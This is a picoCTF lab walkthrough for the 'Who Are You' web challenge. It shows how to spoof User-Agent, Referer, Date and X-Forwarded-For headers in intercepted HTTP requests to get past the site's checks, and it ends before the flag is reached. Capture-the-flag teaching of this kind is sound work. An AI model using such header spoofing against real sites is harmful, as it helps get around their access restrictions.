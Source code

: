 # Who Are You

## Description

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:36622/

## Hints

It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616

## Walkthrough

The homepage for this CTF tells us that only people who use the official "Pico Browser" can use the website.

> Only people who use the official PicoBrowser are allowed on this site!

We can spoof our browser by modifying the [User-Agent header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent "Mozilla developer pages on User-Agent header"), which is the HTTP header sent by our browser when making requests to servers. This header can be changed by using a browser extension such as [User-Agent Switcher and Manager](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/ "Firefox extension for modifying User-Agent header"), but we're better off using an application like BurpSuite for this challenge.

After we intercept a request to the homepage of the CTF we can edit the User-Agent header from our browser to "PicoBrowser", like so:

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

Once we send the request, the homepage message will change to:

> I don&#39;t trust users visiting from another site.

We can add the ["Referer" header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer "Mozilla Developer pages on Referer header") to our next request to trick the server into thinking the request originated from the webpage itself. To do this, we'll set the "Referer" header value to "mercury.picoctf.net:36622".

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Referer: mercury.picoctf.net:36622
Priority: u=0, i
```

Once we've sent the above request, we'll see the following message displayed on the homepage. 

> Sorry, this site only worked in 2018.


In our next HTTP request we'll add the ["Date" header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Date "Mozilla Developer pages for Date header") and set the date for October 15th, 2018. 

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Referer: mercury.picoctf.net:36622
Date: Tue, 15 Oct 2018 14:30:00 GMT
Priority: u=0, i
```

After we've sent our request to the server with a modified Date header, we'll see the following message on the homepage.

> This website is only for people from Sweden.

If we want our HTTP requests to appear as if they're coming from another country we can use the ["X-Forwarded-For" header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For "Mozilla Developer page for X-Forwarded-For header"). We can also look up a countries designated IP block by using a website like [ip2location](https://lite.ip2location.com/ip-address-ranges-by-country "Ip2location Website: Country List"). After clicking on [Sweden's IP block](https://lite.ip2location.com/sweden-ip-address-ranges "IP2location website: Sweden IP Address Block") we can find an IP address to use in our request, such as ```102.177.146.0```.

Our new HTTP request should look similar to the following request.

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: mercury.picoctf.net:39114
Date: Tue, 15 Oct 2018 14:30:00 GMT
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 102.177.146.0
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

Once we've sent our new HTTP request, the homepage will display a new message wondering why we're in Sweden but don't speak Swedish.

> You&#39;re in Sweden but you don&#39;t speak Swedish?

[](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Accept-Language "Mozilla Developer pages for Accept-Language HTTP header")

[](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Language "Mozilla Developer pages for Content-Language HTTP header")
